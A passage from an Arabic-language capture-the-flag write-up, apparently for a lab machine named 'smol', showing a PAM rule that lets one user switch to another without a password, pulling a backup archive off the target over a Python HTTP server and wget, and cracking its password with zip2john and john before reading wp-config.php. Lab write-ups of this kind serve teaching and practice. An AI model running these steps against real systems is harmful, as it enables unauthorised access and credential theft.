 ```bash
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
```
إذا كان الشخص هو المستخدم think يمديك تدخل على الحساب gege بدون كلمة مرور، هذا من الأشياء الجديدة اللي تعلمتها من هذا التحدي واللي أبهرتني جدا.
### gege
بما إننا دخلنا بهذا المستخدم نقدر ذحين نشوف محتوى الملف المضغوط. نحتاج ننسخ الملف المضغوط عندنا، يمدينا نفتح سيرفر بايثون في المجلد اللي فيه الملف
```bash
gege@smol:~$ ls
wordpress.old.zip
gege@smol:~$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
```bash
[vulner@Hunter] in smol 
➜ wget http://10.10.33.145:8081/wordpress.old.zip
--2025-04-03 16:05:48--  http://10.10.33.145:8081/wordpress.old.zip
Connecting to 10.10.33.145:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32266546 (31M) [application/zip]
Saving to: ‘wordpress.old.zip’

wordpress.old.zip       100%[============================>]  30.77M  1.39MB/s    in 46s     

2025-04-03 16:06:34 (684 KB/s) - ‘wordpress.old.zip’ saved [32266546/32266546]
```

```bash
$ 7z e wordpress.old.zip 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 32266546 bytes (31 MiB)

Extracting archive: wordpress.old.zip
--            
Path = wordpress.old.zip
Type = zip
Physical Size = 32266546

    
Enter password:
```
إذا حاولت تفك الضغط عن الملف راح يطلب منك كلمة مرور، يمدينا نستعمل جون عشان يعطينا هاش نقدر نتعامل معاه
```bash
$ zip2john wordpress.old.zip > ziphash

$ john ziphash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
ZIP PASSWORD (wordpress.old.zip)
```
بعد ما ينفك الضغط يمدينا نشوف محتوى ملف wp-config.php
```bash
$ cat wp-config.php

...
/** Database username */
```
